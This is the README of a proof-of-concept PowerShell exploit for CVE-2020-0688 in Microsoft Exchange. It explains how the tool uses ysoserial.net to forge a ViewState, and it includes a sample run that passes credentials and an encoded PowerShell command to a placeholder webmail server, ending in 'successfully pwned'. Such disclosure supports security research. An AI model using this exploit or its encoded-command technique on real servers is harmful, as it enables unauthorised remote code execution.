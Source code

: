 # PSForgot2kEyXCHANGE

PoC for Forgot2kEyXCHANGE (CVE-2020-0688) written in PowerShell

## Usage

This PoC requires a valid Username and Password.

This PoC uses [ysoserial.net](https://github.com/pwntester/ysoserial.net) to create the new ViewState which contains the command you specified on the -Command param.
If you don't already have this installed on your system download it [here](https://github.com/pwntester/ysoserial.net).

```PowerShell
PS> . .\PSForgot2kEyXCHANGE.ps1
PS> Invoke-Forgot2kEyXCHANG -Server 'https://webmail.domain.tld' -User 'Steve.McGreeve@domain.tld' -Password 'Summer2020!' -Command 'cmd /c powershell.exe -en dwByAGkAdABlAC0AaABvAHMAdAAgACcASQAnAG0AIABhACAAcwB0AGkAbgBrAHkAIABzAGsAaQBkACAAdwBoAG8AIAByAHUAbgBzACAAcgBhAG4AZABvAG0AIABjAG8AZABlACAAOgApACcA=' -YsoserialPath 'C:\tools\ysoserial.net\ysoserial.exe'
[+] Login successfully!
[+] Generated new ViewState successfully!
[+] Got a 500 response, successfully pwned https://webmail.domain.tld !
```

# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
